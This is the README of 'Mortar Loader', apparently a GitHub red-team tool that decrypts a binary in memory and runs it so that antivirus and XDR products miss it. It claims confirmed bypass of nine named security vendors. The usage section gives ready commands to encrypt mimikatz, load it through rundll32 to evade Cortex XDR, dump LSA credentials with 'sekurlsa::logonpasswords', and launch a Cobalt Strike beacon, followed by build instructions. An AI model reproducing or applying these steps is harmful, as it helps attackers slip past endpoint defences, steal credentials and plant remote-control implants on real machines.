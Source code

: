 # Mortar Loader 

red teaming evasion technique to defeat and divert detection and prevention of security products.Mortar Loader performs encryption and decryption of selected binary inside the memory streams and execute it directly with out writing any malicious indicator into the hard-drive. 
Mortar is able to bypass modern anti-virus products and advanced XDR solutions and it has been tested and confirmed bypass for the following: 

* Kaspersky :heavy_check_mark:
* ESET :heavy_check_mark:
* Malewarebytes :heavy_check_mark:
* Mcafee :heavy_check_mark:
* Windows defender :heavy_check_mark:
* Cylance:heavy_check_mark:
* TrendMicro :heavy_check_mark:
* Bitdefender :heavy_check_mark:
* Norton Symantec :heavy_check_mark:

detailed research and techniques : https://0xsp.com/security%20research%20&%20development%20(SRD)/defeat-the-castle-bypass-av-advanced-xdr-solutions

CrestCon Asia 2021 talk : https://www.youtube.com/watch?v=H7EMBz7GLMk

# Usage 

## Encryptor 

```
root@kali>./encryptor -f mimikatz.exe -o bin.enc 

```

## Loader (DLL)
for bypassing Cortex XDR,add agressor.dll with bin.enc in the same folder and script the following bat file 
```
@echo off 
cmd.exe /c rundll32.exe agressor.dll,stealth
```
for normal usage you can directly execute the agressor.dll 

```
rundll32.exe agressor.dll,dec
```
## Loader (EXE)
the executable version has more options you can use, as you able to pass commands for the loaded binary

```
##Mimikatz dump LSA 
deliver.exe -d -c sekurlsa::logonpasswords -f mimikatz.enc 

## Cobalt strike beacon 
deliver.exe -d -f cobalt.enc 

```
# Compiling the Loader (windows only)
the project has been coded using FPC(Free Pascal), the compiling procedures are straightforward by downloading and installing Lazarus IDE (https://www.lazarus-ide.org/index.php?page=downloads) and navigate into file > open  -> Run -> build 


# Compiling Encryptor(Linux/BSD/Arm/MacOS//windows)
either by downloading and installing Lazarus-IDE from the official site(https://www.lazarus-ide.org/index.php?page=downloads)

```
#Debian & Ubuntu 

apt install fpc 
apt install lazarus-ide 

```
# Support the research 
if you think you have benefited from this open-source project and want more updates in the future, please mind time and efforts by making a donation
https://donorbox.org/support-0xsp






